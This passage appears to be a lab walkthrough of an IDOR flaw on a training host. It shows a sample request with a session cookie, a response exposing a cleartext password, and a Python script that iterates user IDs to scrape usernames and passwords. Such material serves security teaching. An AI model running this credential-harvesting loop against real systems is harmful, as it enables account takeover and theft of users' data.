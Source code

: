 ```http
GET /auth/498/YourDetails.ashx?uid=198 HTTP/1.1
Host: mdsec.net
Cookie: SessionId=0947F6DC9A66D29F15362D031B337797
```

* The `uid` parameter controls **which user’s account details** you fetch.
* By changing `uid`, you can dump **anyone’s details** (classic **Insecure Direct Object Reference** a.k.a. IDOR).
* Worse, the page reveals **credentials in cleartext** inside HTML.

Example response snippet:

```html
<tr><td>Name: </td><td>Phill Bellend</td></tr>
<tr><td>Username: </td><td>phillb</td></tr>
<tr><td>Password: </td><td>b3ll3nd</td></tr>
```

---

## 🐍 Python Automation Script

Let’s automate this with Python.

We’ll:

1. Iterate over `uid` values.
2. Extract **Name, Username, Password** from the HTML.
3. Save results in a clean tab-delimited format.

```python
import requests
from bs4 import BeautifulSoup

# Target details
BASE_URL = "http://mdsec.net/auth/498/YourDetails.ashx"
COOKIE = {"SessionId": "0947F6DC9A66D29F15362D031B337797"}

# Define the UID range to brute-force
START_UID, END_UID = 190, 200

# Storage for harvested results
results = []

for uid in range(START_UID, END_UID + 1):
    params = {"uid": str(uid)}
    response = requests.get(BASE_URL, params=params, cookies=COOKIE)
    
    if response.status_code != 200:
        continue  # skip invalid responses
    
    soup = BeautifulSoup(response.text, "html.parser")
    rows = soup.find_all("tr")
    
    extracted = {}
    for row in rows:
        cells = row.find_all("td")
        if len(cells) == 2:
            key = cells[0].get_text(strip=True).replace(":", "")
            val = cells[1].get_text(strip=True)
            extracted[key] = val
    
    if "Username" in extracted and "Password" in extracted:
        results.append([uid, extracted.get("Name", ""), extracted["Username"], extracted["Password"]])

```